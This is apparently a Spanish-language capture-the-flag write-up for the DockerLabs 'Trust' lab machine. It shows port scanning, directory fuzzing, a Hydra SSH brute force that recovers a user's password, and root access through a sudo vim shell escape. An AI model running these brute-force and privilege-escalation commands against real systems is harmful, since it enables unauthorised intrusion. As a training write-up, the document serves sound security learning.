


# DockerLabs: Trust — Writeup (Muy Fácil)

¡Máquina comprometida y privilegios elevados a `root` con éxito! Este repositorio contiene la documentación técnica detallada del proceso de auditoría y explotación de la máquina local **Trust** de la plataforma DockerLabs.


<br></br>
## 🗺️ Resumen de la Auditoría
* **Objetivo:** Identificar servicios vulnerables, obtener acceso inicial y escalar privilegios al usuario administrador (`root`).
* **Vectores Clave:** Enumeración de directorios web, fuga de información de usuarios, fuerza bruta SSH y abuso de privilegios Sudo (GTFOBins).

<br></br>
## ⚠️ Paso 00: Comenzando

- Descargar la VM de DockerLabs - Trust
- Descomprimir la VM desde la terminal de Kali
```
unzip trust.zip
```

- Archivo descomprimido
```
auto_deploy.sh
```

- Pasar a Super_Usuario
```
sudo su
```

- Correr la VM
```
sudo -/auto_deploy.sh trust.tar
```



<br></br>
## 🔍 Paso 01: Reconocimiento y Enumeración

### Escaneo de Puertos (Nmap)
Se inició con un escaneo de puertos TCP para identificar los servicios abiertos e inspeccionar sus versiones:

```
sudo nmap -p- --open -sS -sC -sV -min-rate 500 -n -Pn 172.17.0.2 -oG nmap_inicial.txt
```


### Resultado del Escaneo:

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey: 
|   256 5e:b9:df:0a:50:2a:f0:91:1a:eb:98:0b:48:48:65:7a (ECDSA)
|_  256 25:57:77:23:b1:fc:32:bf:af:02:f6:1e:50:ad:0c:8c (ED25519)

80/tcp  open  http    PHP cli server 5.5 or later
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 4E:D2:C9:30:29:AE (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Reconocimiento Pasivo y Tecnologías Web
Se inspeccionó el servidor web en el puerto 80 analizando las cabeceras de 
respuesta y los metadatos de la página:

```
curl -I http://172.17.0.2
```

```
HTTP/1.1 200 OK
Host: 172.17.0.2
Date: Mon, 20 Jul 2026 00:55:50 GMT
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 10701
```

```
whatweb http://172.17.0.2
```


```
http://172.17.0.2 [200 OK] Country [RESERVED][ZZ],
IP[172.17.0.2], Title[Apache2 Debian Default Page: It works]
```


<br></br>
## 📂 Paso 02: Fuzzing y Estructura de Directorios

Se utilizó Gobuster para buscar archivos y directorios ocultos. 
Al notar que la página principal devolvía un tamaño comodín (wildcard) constante, 
se aplicó una regla de exclusión para filtrar falsos positivos:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak,zip -t 50 --exclude-length 10701
```

### Resultado:

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
secret.php           (Status: 200) [Size: 927]
Progress: 27678 / 27678 (100.00%)
===============================================================
Finished
===============================================================
```

<br></br>
## 🎯 Paso 03: Análisis del Punto de Entrada

Al ingresar a la dirección localizada (http://172.17.0.2/secret.php) desde el navegador, la interfaz web expuso el siguiente mensaje:




```
"Hola Mario, Esta web no se puede hackear."
```

Hallazgo Crítico: El servidor filtró un nombre de usuario interno válido en el sistema: mario.


<br></br>
## 🔑 Paso 04: Fase de Intrusión (Acceso Inicial)

### Intento 1: 

Credenciales Predecibles (A Mano)
Se intentó una conexión directa por SSH probando contraseñas lógicas comunes para el usuario mario:

```
ssh mario@172.17.0.2
```

### Contraseñas probadas: 
```
mario, trust, password, admin, docker, pass.
```

### Resultado: 
```
Ninguna credencial por defecto otorgó acceso.
```


### Intento 2: 

Fuerza Bruta con Hydra (Éxito)
Ante el descarte manual, se procedió a realizar un ataque de fuerza bruta automatizado contra el servicio SSH utilizando el diccionario clásico rockyou.txt:

```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4 -V
```

### Resultado:

```
[22][ssh] host: 172.17.0.2

login: mario
password: chocolate

1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2026-07-19 21:22:43
```


Se logró la intrusión legítima al sistema con las credenciales mario:chocolate.


<br></br>
## 🛡️ Paso 05: Escalada de Privilegios


### Enumeración de Privilegios Sudo

Una vez dentro de la consola del contenedor, se listaron los comandos permitidos que el usuario actual puede ejecutar como superusuario:


```
mario@c778873e0fe0:~$ sudo -l
```

```
Matching Defaults entries for mario on c778873e0fe0:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on c778873e0fe0:
    (ALL) /usr/bin/vim
```


#### El usuario mario puede ejecutar el editor de texto /usr/bin/vim como root sin ningún tipo de restricción.

<br></br>
### Abuso de Binario (GTFOBins)

Aprovechando las capacidades interactivas de Vim para invocar subprocesos del sistema, se ejecutó el binario con privilegios elevados forzándolo a abrir una consola interna (/bin/sh):


```
sudo /usr/bin/vim -c ':!/bin/sh'
```


Al procesarse el escape, se consultó la identidad en la nueva shell:

```
whoami
```

```
root
```


<br></br>
## 🏁 Conclusiones del Aprendizaje

### A través de esta auditoría se logró pasar de un entorno totalmente en blanco a comprometer por completo el sistema mediante las siguientes fases metodológicas:

##### 1. Escaneo limpio de puertos con optimización de paquetes.

##### 2. Fuzzing web evadiendo de forma efectiva las respuestas comodín.

##### 3. Extracción de usuarios válidos a través de la lógica y descuidos del sitio web.

##### 4. Fuerza bruta exitosa orientada a servicios de acceso seguro (SSH).

##### 5. Enumeración local precisa y abuso de configuraciones desatendidas en Sudo (GTFOBins).


